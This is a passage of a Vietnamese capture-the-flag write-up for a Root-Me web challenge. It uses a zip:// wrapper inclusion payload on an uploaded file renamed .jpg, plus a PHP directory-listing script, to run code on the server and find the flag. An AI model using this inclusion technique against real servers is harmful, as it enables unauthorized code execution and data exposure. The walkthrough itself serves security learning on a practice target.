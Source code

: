 để ý URL: http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=Vh86hnKT3
ta thấy id ở đây là `Vh86hnKT3` khác với tên của file zip của ta. Sử dụng zip wrapper tuy cập đến /tmp/upload/h86hnKT3.jpg%23a, server sẽ tự concat thêm ‘.php’ cho ta để có câu request hoàn chỉnh:
payload: ?page=zip://tmp/upload/Vh86hnKT3.jpg%23a

![](https://hackmd.io/_uploads/ByFdBhzBn.png)
source code không có gì, bây giờ phải thử tìm trong folder chứa index.php vì có thể sẽ có file khác nhưng ta không Path Traversal đc, vậy nên 
sử dụng payload khác cho file php và zip nó lại gửi lại lên
```=php
<?php
$path = getcwd();
$items = scandir($path);

echo "<p>Content of $path</p>";
echo '<ul>';
foreach ($items as $item) {
    echo '<li>' . $item . '</li>';
}
echo '</ul>';
?> 

```
truy cập vào để file zip chạy được như trên và ta có được như sau: 
![](https://hackmd.io/_uploads/B1Wlw3fB2.png)
bùm. vậy là chúng ta đã tìm được ngay flag ở đây.




